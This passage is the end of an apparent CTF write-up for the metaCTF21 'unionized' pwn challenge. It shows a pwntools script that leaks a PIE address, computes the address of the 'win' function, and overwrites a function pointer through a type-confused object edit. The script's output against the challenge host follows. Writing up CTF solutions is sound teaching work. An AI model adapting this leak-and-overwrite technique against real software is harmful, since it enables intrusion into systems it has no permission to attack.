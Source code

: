```
print(leak)
display_string = u64(leak + b'\x00' * 2)
print(hex(display_string))

pie_base = display_string - elf.symbols['display_string']
win = pie_base + elf.symbols['win']
print(hex(win))

#Round 2: 

edit_char(1, b'\x70')

edit_string(1, 8, p64(win))

display()

target.interactive()
```
And here are the results:
```
knittingirl@piglet:~/CTF/metaCTF21/unionized$ python3 unionized_writeup.py 
[+] Opening connection to host.cg21.metaproblems.com on port 3150: Done
[*] '/home/knittingirl/CTF/metaCTF21/unionized/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'What would you like to do?\n1. Create new object\n2. Display objects\n3. Edit Object\n4. Delete Object\n5. Exit'
b'\nWhat type would you like?'
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat size would you like your string to be'
b'\nWhat is your data'
b'\nWhat would you like to do?\n1. Create new object\n2. Display objects\n3. Edit Object\n4. Delete Object\n5. Exit'
b'\nWhat type would you like?'
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat size would you like your string to be'
b'\nWhat is your data'
b'\nWhat would you like to do?\n1. Create new object\n2. Display objects\n3. Edit Object\n4. Delete Object\n5. Exit'
b'\nWhat index would you like to modify'
b'?\nWhat type would you like?'
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat is your value:'
b'\nVariable created\nWhat would you like to do?\n1. Create new object\n2. Display objects\n3. Edit Object\n4. Delete Object\n5. Exit'
b'\nWhat index would you like to modify'
b'?\nWhat type would you like?'
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat size would you like your string to be'
b'\nWhat is your data'
b'\nVariable created\nWhat would you like to do?\n1. Create new object\n2. Display objects\n3. Edit Object\n4. Delete Object\n5. Exit\n'
b'&r2\x9b$V'
0x56249b327226
0x56249b327680
b'\n11111111111111111111\nWhat would you like to do?\n1. Create new object\n2. Display objects\n3. Edit Object\n4. Delete Object\n5. Exit'
b'\nWhat index would you like to modify'
b'?\nWhat type would you like?'
b'\n\n1. String\n2. Integer\n3. Long Long\n4. Character\nWhat is your value:'
```